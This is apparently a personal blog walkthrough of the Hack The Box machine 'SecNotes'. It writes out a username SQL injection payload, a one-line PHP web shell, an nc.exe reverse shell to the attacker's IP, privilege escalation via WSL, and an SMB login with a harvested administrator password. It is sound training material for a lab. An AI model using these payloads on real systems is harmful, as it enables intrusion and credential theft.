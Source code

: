 ```yaml
---
title: "SecNotes Walkthrough(HTB)"
date: 2025-03-22
draft: false
description: "A straight forward walkthrough of the box SecNotes"
tags: ["Medium", "Windows", "HTB", "hacking", "Active Directory", "Walkthrough"]
---
```

## Reconnaissance & Enumeration

- As usual I started with a Nmap scan, as for the interesting ones we got port 445 and 80, 8808 open
![Pasted image 20241212212636.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241212212636.png?raw=true)
- Web port for an Active Directory seems interesting so I quickly checked the port `80` and we got a login page Also with an option to signup for creating new account.
- This website offeres notes saving feature for it's users.
- For starters I registered an account and logged in.
- After a while I started enumerating. Then I noticed something, its getting the notes listed by using the username and also displays the username on the page. Seems good isn't it.
![Great](https://media1.tenor.com/m/JWc2xV5Y1QcAAAAC/dance.gif)

## Exploitation

### Testing SQL Injection
- After seeing this, the idea of sql Injection suddenly sparked within my brain. As this lists notes for the site merely using username is bad cause a simple valid SQL injection payload might make the backend to list all the notes on the server it includes notes of all users.
- If you haven't heard of SQL injection and if it's new to you I already have a short post on SQL injections for begginers. Please check it {{< article link="/Secure-The-Throne/posts/1741343014156-sql-injection/" >}}
- I started the attack, First I tried `'or 1=1 -- -` on the login page it didn't worked so, the idea here is to create an account with this as the username `'or 1=1 -- -`. I created an account with the username of `'or 1=1 -- -` and it was a success. There is no validation for usernames, Actually in my opinion validation on everything is a requirement.
![validation](https://media1.tenor.com/m/MyQOyO7vDNcAAAAC/thats-very-important-raashi-khanna.gif)
- With the malicious username now I can view everyone's notes
![Pasted image 20241212212438.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241212212438.png?raw=true)
- I searched through all the notes and from one of the notes I got a password and username for SMB share.
![creds](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241212212838.png?raw=true)
### Accessing the SMB share
- Quickly after enumerating the shares I logged into a share called `new-site` cause it seemed interesting, `new-site` share seems like a share for a web directory which could be this directory or the share for web port `8808`. But
![share](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241212213135.png?raw=true)
- At this point i'm 100% positive that this share is for the site hosted on web port `8808`. I could easily upload a reverse shell and trigger it by going to the path as this is a web port.
- Wasted literally two hours cause web shells were not working, then after that restarted the machine and got one worked.

### Shell
- I Created a file with this code and named it `cd.php`.
```php
<?php system($_GET['cmd']); ?>
```
- This above payload will enable command execution on the system.
- After uploading it via SMB and I executed/Triggered or tested the shell by visiting this `http://secnotes.htb:8808/cd.php?cmd=whoami` with a command value of `whoami`.
- Got a response, then to get a stable reverse shell connection I uploaded `nc.exe` into the smb share and accessed it `http://10.10.10.97:8808/tester.php?cmd=nc.exe+-e+cmd.exe+10.10.14.5+6001`
- This is the command
```cmd
nc.exe -e cmd.exe <IP> <PORT>
```
- I got a shell back 
- Eventually got {{< keyword >}} User flag {{< /keyword >}}
![Pasted image 20241212225123.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241212225123.png?raw=true)

## Privilege Escalation
- I started my post exploitaion enumeration and while at that I found some interesting files within the `C:\\` directory
![Pasted image 20241212225342.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241212225342.png?raw=true)
![interesting](https://media1.tenor.com/m/NQgKo4V-sREAAAAC/interesting-batman.gif)
- Root directory of systems with WSL installed would have directories similar to this and the `Ubuntu.zip` Indicating that this system has WSL installed.
- Typically WSL run as root/administrator. If I could excute the `bash` I could escalate my privilege. 
- To My undertstanding there should a system link file of `bash` as `bash.exe`. So to exploit this we can search for `bash.exe` file
```bash
where /R c:\ bash.exe  
```
### Pivoting
- I got the path and after executing `bash.exe` I got root access easily on the wsl.
![Pasted image 20241212230506.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241212230506.png?raw=true)
- Moments after stablizing the shell using `python3 -c 'import pty;pty.spawn("/bin/bash")'`, I enumerated and read the history of the commands in the terminal and there I could see administrator password for a share.
![Pasted image 20241212230916.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241212230916.png?raw=true)
- Now I logged in to the share using the administrator's password.
```bash
smbclient -U 'administrator%password' \\\\10.10.10.97\\c$
```
- Downloaded the root.txt file using `get` command
![Pasted image 20241212231856.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241212231856.png?raw=true)
- Acquired {{< keyword >}} Root flag {{< /keyword >}} 
![Pasted image 20241212231934.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241212231934.png?raw=true)

{{< typeit >}} This is it, this was a good and useful journey. I learnt a lot from this box. Anyway i'll see you soon {{< /typeit >}}
![bye](https://media0.giphy.com/media/v1.Y2lkPTc5MGI3NjExdXYxZ2syaHUwbWoxNXRtZjEwOWUzbWhybWxzMWkyZzB1ZG42cXV1MyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/l378d3GlBpg4uHXr2/giphy.gif)
